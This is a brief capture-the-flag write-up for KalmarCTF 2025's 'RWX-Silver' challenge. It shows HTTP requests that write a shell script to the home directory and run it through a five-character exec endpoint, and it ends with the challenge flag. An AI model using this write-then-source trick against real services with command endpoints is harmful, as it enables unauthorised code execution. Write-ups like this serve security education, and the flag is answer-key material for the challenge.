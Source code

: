 ```yaml
---
title: RWX-Silver
date: 2025-03-10T03:00:19+03:00
description: Writeup for RWX-Silver [KalmarCTF 2025]
type: writeup
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Apparently that was too much!

## Intuition

The challenge is similar to `RWX-Bronze`, but now the length of the command is 5 characters. I used the same idea, but wrote the script into the home directory.

## Solution

Write the script:
```
POST /write?filename=/home/user/a HTTP/2

#!/bin/sh
/would you be so kind to provide me with a flag
```

Execute the command: `. ~/a`
```
GET /exec?cmd=.%20~/a HTTP/2
```

### Flag

`kalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}`
